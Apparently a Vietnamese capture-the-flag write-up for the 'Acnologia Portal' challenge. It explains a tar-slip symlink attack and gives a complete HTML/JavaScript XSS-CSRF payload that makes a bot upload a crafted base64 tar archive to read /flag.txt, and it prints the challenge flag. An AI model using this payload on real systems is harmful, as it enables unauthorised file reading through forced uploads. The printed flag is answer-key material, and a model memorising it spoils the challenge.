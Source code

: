 # Acnologia Portal

## Unintended solution
Vul trong util.py ở dòng code:
```py
tar.extractall(tmp)
```
Đọc thêm tại [đây](https://codeql.github.com/codeql-query-help/python/py-tarslip/#):

Kịch bản khai thác:
1. Tạo một symlink `flag.txt -> /flag.txt`
2. Dùng [evilarc](https://github.com/ptoomey3/evilarc) để tạo tar `file.tar.gz` từ symlink
3. XSS + CSRF con bot để fetch và upload một `file.tar.gz`.
4. Access `<URL>/static/flag.txt` để lấy flag

script:
```html
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Flag</title>
</head>

<body>
    <script>
        function base64toBlob(base64Data, contentType) {
            contentType = contentType || '';
            var sliceSize = 1024;
            var byteCharacters = atob(base64Data);
            var bytesLength = byteCharacters.length;
            var slicesCount = Math.ceil(bytesLength / sliceSize);
            var byteArrays = new Array(slicesCount);

            for (var sliceIndex = 0; sliceIndex < slicesCount; ++sliceIndex) {
                var begin = sliceIndex * sliceSize;
                var end = Math.min(begin + sliceSize, bytesLength);

                var bytes = new Array(end - begin);
                for (var offset = begin, i = 0; offset < end; ++i, ++offset) {
                    bytes[i] = byteCharacters[offset].charCodeAt(0);
                }
                byteArrays[sliceIndex] = new Uint8Array(bytes);
            }
            return new Blob(byteArrays, {
                type: contentType
            });
        }

        var b64file = "H4sICHIWg2IC/2V2aWwudGFyAO3PXQrCMBBG0SwlK8hfk2Y9oWgplFg0Bd29qbQvRSkKvt3DhA9mAskopdW70mmaljMOXSrDJetbqdnp85h6Ve5FfMFUMcYlbQxmzebVXwnrnTetdb6tcxesCUK63Z9+efvQXBe7SilyPz9O+fO9o/m2yJYAAAAAAAAAAAAAAAAAAPzRE79WLagAKAAA";

        var content_type = 'application/x-gtar-compressed';
        var blob = base64toBlob(b64file, content_type);

        var formData = new FormData();
        formData.append('file', blob, 'file.tar.gz');

        var url = '/api/firmware/upload';
        var request = new XMLHttpRequest();
        request.open('POST', url);
        request.send(formData);
    </script>
</body>

</html>

<!-- https://www.dubget.com/file-upload-via-xss.html -->
<!-- https://codeql.github.com/codeql-query-help/python/py-tarslip/# -->
```

## Intended solution
<https://gist.github.com/pich4ya/fa26c091c989db14234b2f9aa81fedbc>

**HTB{des3r1aliz3_4ll_th3_th1ngs}**
